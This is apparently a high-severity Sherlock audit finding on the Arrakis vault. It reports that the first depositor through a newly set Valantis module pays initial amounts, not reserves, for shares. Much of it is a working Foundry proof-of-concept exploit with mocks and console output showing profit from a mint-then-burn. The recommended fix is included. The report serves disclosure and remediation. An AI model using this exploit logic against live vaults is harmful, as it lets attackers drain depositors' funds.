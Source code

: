 Tricky Alabaster Panda

high

# First depositor via new module mints large amount of shares at huge discount

## Summary

When a new module is set, the first depositor via that module pays `proportion*_init0` instead of paying `proportion*reserves0`  in minting costs.

They buy shares for very cheap, then dump them straight away at the correct price for profit.

This is currently blocked by the issue where liquidity is being withdrawn to the manager.

## Vulnerability Detail

When a new module is set, 100% of the liquidity from the old pool is withdrawn, and re-deposited via the new one.

The re-depositing occurs via the `initializePosition()` function rather than the `deposit()` function. The issue is that the `notFirstDeposit` flag remains `false`, since `initializePosition()` does not toggle it to `true` (only `deposit()` does).

Then when the first deposit occurs through the new module, since the `notFirstDeposit` flag is false, the mint cost is calculated via:

```solidity
amount0 = FullMath.mulDivRoundingUp(proportion_, _amt0, BASE);
amount1 = FullMath.mulDivRoundingUp(proportion_, _amt1, BASE);
```

On the first deposit, `_amt0` and `_amt1`  are hard-coded to `init0`  and `init1`  respectively, instead of being assigned as the pool’s reserves.

(Proof [here](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L66-L67) )

Hence, the user can mint `proportion_`  of the total supply of shares, but only pay for `init0 * proportion_` , instead of paying `reserves0 * proportion` 

`reserves0`  are likely to be much larger than `init0` , so the first depositor gets a large discount in the mint cost.

## Impact

The first depositor in a newly set module can mint tokens at a very cheap cost. Note that this issue is blocked by another one, which incorrectly withdraws all the funds on the first deposit. 

However once that is fixed, this issue will allow someone to mint large amounts of shares, and instantly redeem them for a large profit.

## Proof of Concept

Since this logical flaw can only be demonstrated if another separate issue is removed, in order for the PoC to work, this [line of code](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L61) should been commented out in `ValantisHOTModulePublic`

To run the PoC:

- add the foundry test to `arrakis-modular/test/integration` , and add the mocks to `arrakis-modular/test/integration/mocks`
- run `forge test --mt test_wrongSharePrice_withBugRemoved -vv`

**PoC Summary:**

1. Set new module for a vault (with new pool and ALM)
2. User mints `totalSupply`
3. User burns `totalSupply`  (half of the now total supply), collecting major profit

**Console output:**

```bash
Ran 1 test for test/integration/H9.t.sol:PoC_FundsSentToArrakisManager_Incorrectly
[PASS] test_wrongSharePrice_withBugRemoved() (gas: 3221760)
Logs:
  
  [Before Mint+Burn] reserves0: 1e10, reserves1: 5e18
  
  [After Mint+Burn] reserves0: 6e9, reserves1: 3e18
  
  Mint cost: 2e9 USDC and 1e18 ETH
  Redeemed amount: 6e9 USDC and 3e18 ETH

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 461.04ms

Ran 1 test suite in 461.04ms: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

<details><summary> Foundry Test </summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";


import {ArrakisMetaVaultPublic} from
    "../../src/ArrakisMetaVaultPublic.sol";
    import {ArrakisMetaVault} from
    "../../src/abstracts/ArrakisMetaVault.sol";
import {TimeLock} from
    "../../src/TimeLock.sol";
import {ArrakisStandardManager} from
    "../../src/ArrakisStandardManager.sol";
import {IModuleRegistry} from
    "../../src/interfaces/IModuleRegistry.sol";
import {ValantisModulePublic} from
    "../../src/modules/ValantisHOTModulePublic.sol";
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";

import {TEN_PERCENT} from "../../src/constants/CArrakis.sol";

import {ValantisModule} from "../../src/abstracts/ValantisHOTModule.sol";
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";
import {IOwnable} from "../../src/interfaces/IOwnable.sol";

import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";

// Mocks
import {OracleWrapper} from "./mocks/OracleWrapper.sol";
import {SovereignPoolMock} from "./mocks/SovereignPoolMock.sol";
import {SovereignALMMock} from "./mocks/SovereignALMMock.sol";

//Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

contract PoC_FundsSentToArrakisManager_Incorrectly is ValantisIntegrationPublicTest {
  
    address vaultManager;
    address minter;

    address public constant OWNER_EOA = 0x529a65684a6923958ab6b7DF7B909a8D5e1580ae;

    function test_wrongSharePrice_withBugRemoved() public {
        
        // #region Vault Init
        minter = makeAddr("minter");
        vaultManager = IArrakisMetaVault(vault).manager();

        deal(address(token0), minter, init0*5); // 2000e6 (0: USDC)
        deal(address(token1), minter, init1*5); // 1e18   (1: WETH)
        vm.label(address(token0), "token0");
        vm.label(address(token1), "token1");

        address oldModule = address(IArrakisMetaVault(vault).module());
        
        SovereignPoolMock newPool = new SovereignPoolMock();
        newPool.setToken0AndToken1(address(token0), address(token1));

        //User mints from meta vault, using old module
        vm.startPrank(minter);
        token0.approve(oldModule, init0*5);
        token1.approve(oldModule, init1*5);

        IArrakisMetaVaultPublic(vault).mint(5e18, minter); // first deposit
        vm.stopPrank();
        // #endregion Vault Init

        
     

        TimeLock timelock = TimeLock(payable(IOwnable(vault).owner()));
        
        // Initialisation Data for the newly whitelisted module
        bytes[] memory initData = new bytes[](1);
        initData[0] = abi.encodeWithSelector(
            ValantisModule.initialize.selector,
            address(newPool), 2e9, 1e18, 1e5, vault
        );

        bytes memory whitelistModulesPayload = abi.encodeWithSelector(
            ArrakisMetaVault.whitelistModules.selector,
            IModuleRegistry(moduleRegistry).beacons(), // use the existing module implementation, no changes needed
            initData
        );

        //Whitelist the new module
        vm.startPrank(OWNER_EOA);
        timelock.schedule(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)));
        vm.stopPrank();

        bytes memory almPayload = abi.encodeWithSelector(
            ValantisModule.setALMAndManagerFees.selector,
            address(new SovereignALMMock(address(token0), address(token1), address(newPool))),
            oracle
        );

        address[] memory modules = ArrakisMetaVaultPublic(vault).whitelistedModules();

        // set ALM for the new module
        //note: A mock ALM is used for simplicity of setup, but it will still work with a real ALM
        vm.startPrank(OWNER_EOA);
        timelock.schedule(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)));

        vm.stopPrank();

        // A call will be made to the new module to initialize the LP position
        bytes[] memory payloads = new bytes[](1);
        
        // initializePosition (Deposits liquidity into ALM)
        payloads[0] = abi.encodeWithSelector(
            ValantisModule.initializePosition.selector
        );

        // Set the module and pass in payload
        vm.startPrank(executor);
        ArrakisStandardManager(payable(manager)).setModule(vault, modules[1], payloads);
       

        deal(address(token0), minter, init0*5); // 2000e6 (0: USDC)
        deal(address(token1), minter, init1*5); // 1e18   (1: WETH)
        address newModule = modules[1];
        
        //Now, a minter mints shares from the vault, as the first depositor
        uint256 totalSupply = ArrakisMetaVaultPublic(vault).totalSupply();
        //console.log("totalSupply is %e: ", totalSupply);
        vm.startPrank(minter);
        token0.approve(newModule, type(uint256).max);
        token1.approve(newModule, type(uint256).max);

        (uint256 res0, uint256 res1) = newPool.getReserves();
        console.log("[Before Mint+Burn] reserves0: %e, reserves1: %e", res0, res1);


        //@e here it all gets sent to the manager
        (uint256 amount_0_in, uint256 amount_1_in) = IArrakisMetaVaultPublic(vault).mint(totalSupply, minter);
        (uint256 amount_0_out, uint256 amount_1_out) = IArrakisMetaVaultPublic(vault).burn(totalSupply, minter);
        vm.stopPrank();

        (res0, res1) = newPool.getReserves();
        console.log("[After Mint+Burn] reserves0: %e, reserves1: %e", res0, res1);
    

        console.log("");
        console.log("Mint cost: %e USDC and %e ETH", amount_0_in, amount_1_in);
        console.log("Redeemed amount: %e USDC and %e ETH", amount_0_out, amount_1_out);        
    }
}
```
</details>

<details><summary> SovereignALMMock.sol </summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {SafeCast} from
    "@openzeppelin/contracts/utils/math/SafeCast.sol";

import {SovereignPool} from  "../../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";

contract SovereignALMMock {
    address public token0;
    address public token1;

    SovereignPool pool;

    constructor(address t0, address t1, address _pool) {
        token0 = t0;
        token1 = t1;
        pool = SovereignPool(_pool);
    }

    function getReservesAtPrice(uint160)
        external
        view
        returns (uint128 reserves0, uint128 reserves1)
    {
        reserves0 = SafeCast.toUint128(
            IERC20(token0).balanceOf(address(this))
        );
        reserves1 = SafeCast.toUint128(
            IERC20(token1).balanceOf(address(this))
        );
    }

    function depositLiquidity(
        uint256 _amount0,
        uint256 _amount1,
        uint160,
        uint160
    )
        external
        returns (uint256 amount0Deposited, uint256 amount1Deposited)
    {
        IERC20(token0).transferFrom(msg.sender, address(this), _amount0);
        IERC20(token1).transferFrom(msg.sender, address(this), _amount1);

        IERC20(token0).approve(address(pool), _amount0);
        IERC20(token1).approve(address(pool), _amount1);

        (amount0Deposited, amount1Deposited) = SovereignPool(pool).depositLiquidity(
            _amount0,
            _amount1,
            msg.sender, // the module
            '',
            ''
        );
    }

    function withdrawLiquidity(
        uint256 amount0,
        uint256 amount1,
        address receiver,
        uint160,
        uint160
    ) external {
        pool.withdrawLiquidity(amount0, amount1, msg.sender, receiver, '');
    }
    
}
```
</details>

<details><summary> SovereignPoolMock.sol </summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {console} from "forge-std/console.sol";

contract SovereignPoolMock {
    IERC20 public token0;
    IERC20 public token1;

    uint256 public managerBalance0;
    uint256 public managerBalance1;

    uint256 public managerFeeBIPS;

    uint256 public reserves0;
    uint256 public reserves1;

    address public immutable sovereignVault;
    address public verifierModule;
    
    constructor() {
        sovereignVault = address(this);
    }

    function depositLiquidity(
        uint256 _amount0,
        uint256 _amount1,
        address _sender,
        bytes calldata _verificationContext,
        bytes calldata _depositData
    ) external returns (uint256 amount0Deposited, uint256 amount1Deposited) {
        

        uint256 token0PreBalance = token0.balanceOf(address(this));
        uint256 token1PreBalance = token1.balanceOf(address(this));

        console.log("pre0", token0PreBalance);
        console.log("pre1", token1PreBalance);

        token0.transferFrom(
            msg.sender, address(this), _amount0
        );
        token1.transferFrom(
            msg.sender, address(this), _amount1
        );

        amount0Deposited = token0.balanceOf(address(this)) - token0PreBalance;
        amount1Deposited = token1.balanceOf(address(this)) - token1PreBalance;
    }

    function withdrawLiquidity(
        uint256 _amount0,
        uint256 _amount1,
        address _sender,
        address _recipient,
        bytes calldata _verificationContext
    ) external {

        if (_amount0 > 0) {
            token0.transfer(_recipient, _amount0);
        }

        if (_amount1 > 0) {
            token1.transfer(_recipient, _amount1);
        }
    }

    function setReserves(
        uint256 reserves0_,
        uint256 reserves1_
    ) external {
        reserves0 = reserves0_;
        reserves1 = reserves1_;
    }

    function setToken0AndToken1(
        address token0_,
        address token1_
    ) external {
        token0 = IERC20(token0_);
        token1 = IERC20(token1_);
    }

    function setManagesFees(
        uint256 managerBalance0_,
        uint256 managerBalance1_
    ) external {
        managerBalance0 = managerBalance0_;
        managerBalance1 = managerBalance1_;
    }

    function setPoolManagerFeeBips(uint256 poolManagerFeeBips_)
        external
    {
        managerFeeBIPS = poolManagerFeeBips_;
    }

    function claimPoolManagerFees(
        uint256,
        uint256
    )
        external
        returns (
            uint256 feePoolManager0Received,
            uint256 feePoolManager1Received
        )
    {
        feePoolManager0Received = managerBalance0;
        feePoolManager1Received = managerBalance1;
        if (managerBalance0 > 0) {
            IERC20(token0).transfer(msg.sender, managerBalance0);
        }

        if (managerBalance1 > 1) {
            IERC20(token1).transfer(msg.sender, managerBalance1);
        }
    }

    // #region view functions.

    function getPoolManagerFees()
        external
        view
        returns (uint256 poolManagerFee0, uint256 poolManagerFee1)
    {
        poolManagerFee0 = managerBalance0;
        poolManagerFee1 = managerBalance1;
    }

    function poolManagerFeeBips() external view returns (uint256) {
        return managerFeeBIPS;
    }

    function getReserves() external view returns (uint256, uint256) {
        return (token0.balanceOf(address(this)), token1.balanceOf(address(this)));
    }

    // #endregion view functions.
}

```
</details>

## Code Snippet
https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L66-L67

## Tool used

Manual Review

## Recommendation

Make sure that the user pays `proportion * reserve0` and `proportion * reserve1`

This can be achieved by setting the `notFirstDeposit` flag to `true` within `initializePosition()`.